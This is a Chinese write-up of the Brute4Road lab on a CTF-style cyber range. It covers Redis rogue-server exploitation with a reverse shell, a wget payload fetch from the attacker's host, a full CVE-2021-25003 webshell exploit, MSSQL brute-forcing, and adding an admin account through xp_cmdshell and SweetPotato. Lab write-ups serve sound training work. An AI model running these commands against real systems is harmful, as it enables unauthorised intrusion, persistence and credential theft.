 ## 文章

https://fushuling.com/index.php/2023/09/03/%E6%98%A5%E7%A7%8B%E4%BA%91%E5%A2%83%C2%B7brute4road/

https://exp10it.cn/2023/08/%E6%98%A5%E7%A7%8B%E4%BA%91%E9%95%9C-brute4road-writeup/

https://zysgmzb.club/index.php/archives/241

## 打靶过程

先用fscan扫描

![image-20231010230806109](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231010230806109.png)

存在Redis未授权，使用MDUT连接，计划任务和ssh写公钥都不行

查看Redis版本为5.0.12，可能存在主从复制漏洞

![image-20231010231149998](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231010231149998.png)

恶意Redis服务器工具 https://github.com/n0b0dyCN/redis-rogue-server



```bash
# 开启恶意Redis服务
python3 redis-rogue-server.py --rhost=39.99.159.233 --lhost=182.92.161.222 --lport=9999
# 选择反弹shell
r
# 反弹的IP和端口
182.92.161.222 7777
# nc监听
nc -lvp 7777
```

![image-20231010233501404](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231010233501404.png)

之后再弹一个完整的shell

```bash
script -qc /bin/bash /dev/null
```

![image-20231010233514930](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231010233514930.png)

再通过wget来下载msf马

```bash
wget http://182.92.161.222/test
```

执行test来获取session

之后便是base64提权

![image-20231011000417086](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231011000417086.png)

传入fscan

![image-20231011000636205](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231011000636205.png)

看下网卡

![image-20231011001130409](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231011001130409.png)

fscan扫

```bash
./fscan -h 172.22.2.7/24
```

```
    (icmp) Target 172.22.2.3      is alive
    (icmp) Target 172.22.2.7      is alive
    (icmp) Target 172.22.2.16     is alive
    (icmp) Target 172.22.2.18     is alive
    (icmp) Target 172.22.2.34     is alive
    [*] Icmp alive hosts len is: 5
    172.22.2.16:445 open
    172.22.2.3:445 open
    172.22.2.34:139 open
    172.22.2.16:139 open
    172.22.2.18:139 open
    172.22.2.34:135 open
    172.22.2.3:139 open
    172.22.2.16:135 open
    172.22.2.3:135 open
    172.22.2.16:80 open
    172.22.2.18:80 open
    172.22.2.7:80 open
    172.22.2.18:22 open
    172.22.2.7:21 open
    172.22.2.16:1433 open
    172.22.2.34:445 open
    172.22.2.18:445 open
    172.22.2.7:22 open
    172.22.2.7:6379 open
    172.22.2.3:88 open
    [*] alive ports len is: 20
    start vulscan
    [*] WebTitle: http://172.22.2.7         code:200 len:4833   title:Welcome to CentOS
    [*] NetInfo:
    [*]172.22.2.34
       [->]CLIENT01
       [->]172.22.2.34
    [*] NetInfo:
    [*]172.22.2.3
       [->]DC
       [->]172.22.2.3
    [*] NetBios: 172.22.2.34     XIAORANG\CLIENT01              
    [*] NetInfo:
    [*]172.22.2.16
       [->]MSSQLSERVER
       [->]172.22.2.16
    [*] 172.22.2.3  (Windows Server 2016 Datacenter 14393)
    [*] 172.22.2.16  (Windows Server 2016 Datacenter 14393)
    [*] WebTitle: http://172.22.2.16        code:404 len:315    title:Not Found
    [*] NetBios: 172.22.2.16     MSSQLSERVER.xiaorang.lab            Windows Server 2016 Datacenter 14393 
    [*] NetBios: 172.22.2.3      [+]DC DC.xiaorang.lab               Windows Server 2016 Datacenter 14393 
    [*] NetBios: 172.22.2.18     WORKGROUP\UBUNTU-WEB02         
    [+] ftp://172.22.2.7:21:anonymous 
       [->]pub
    [*] WebTitle: http://172.22.2.18        code:200 len:57738  title:又一个WordPress站点
```

有一个wordpress网站

通过wpscan去扫一下

```bash
wpscan --url http://172.22.2.18  -e ap
```

发现存在wpcargo插件，有CVE-2021-25003-WordPress Unauthenticated RCE

![image-20231011081723815](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231011081723815.png)

使用现成脚本打

```python
import sys
import binascii
import requests

# This is a magic string that when treated as pixels and compressed using the png
# algorithm, will cause <?=$_GET[1]($_POST[2]);?> to be written to the png file
payload = '2f49cf97546f2c24152b216712546f112e29152b1967226b6f5f50'

def encode_character_code(c: int):
    return '{:08b}'.format(c).replace('0', 'x')

text = ''.join([encode_character_code(c) for c in binascii.unhexlify(payload)])[1:]

destination_url = 'http://127.0.0.1:8001/'
cmd = 'ls'

# With 1/11 scale, '1's will be encoded as single white pixels, 'x's as single black pixels.
requests.get(
    f"{destination_url}wp-content/plugins/wpcargo/includes/barcode.php?text={text}&sizefactor=.090909090909&size=1&filepath=/var/www/html/webshell.php"
)

# We have uploaded a webshell - now let's use it to execute a command.
print(requests.post(
    f"{destination_url}webshell.php?1=system", data={"2": cmd}
).content.decode('ascii', 'ignore'))
```

然后再次写shell

![image-20231011082043035](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231011082043035.png)

用蚁剑连接

![image-20231011082139994](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231011082139994.png)

查看wordpress配置文件可以看到有数据库用户名和密码

![image-20231011082526103](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231011082526103.png)

先用蚁剑检查一下支持的数据库类型

![image-20231011083929667](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231011083929667.png)

使用MYSQLI进行连接，获取flag

![image-20231011083950538](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231011083950538.png)

除了flag，还有一份密码表，猜测是172.22.2.16的mssql的密码，尝试爆破一下啊

获得密码

![image-20231011185913080](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231011185913080.png)

用MDUT连接mssql

![image-20231011190348749](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231011190348749.png)

因为MDUT连接会出现报错，所以我换了一个命令行工具来利用

https://github.com/uknowsec/SharpSQLTools

先看有没有开启3389端口

```bash
netstat -ano
```

开启了3389端口

![image-20231011195206965](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231011195206965.png)

添加用户来连接rdp

```bash
.\SharpSQLTools.exe 172.22.2.16 sa ElGNkOiC master xp_cmdshell 'c:\\hack\\SweetPotato.exe -a \"net user ki1ro qwer1234! /add\"'
.\SharpSQLTools.exe 172.22.2.16 sa ElGNkOiC master xp_cmdshell 'c:\\hack\\SweetPotato.exe -a \"net localgroup administrators ki1ro /add\"'
# 查看用户是否加入
.\SharpSQLTools.exe 172.22.2.16 sa ElGNkOiC master xp_cmdshell 'c:\\hack\\SweetPotato.exe -a \"net user\"'
```

![image-20231011195839231](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231011195839231.png)

获取flag

![image-20231011200017732](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231011200017732.png)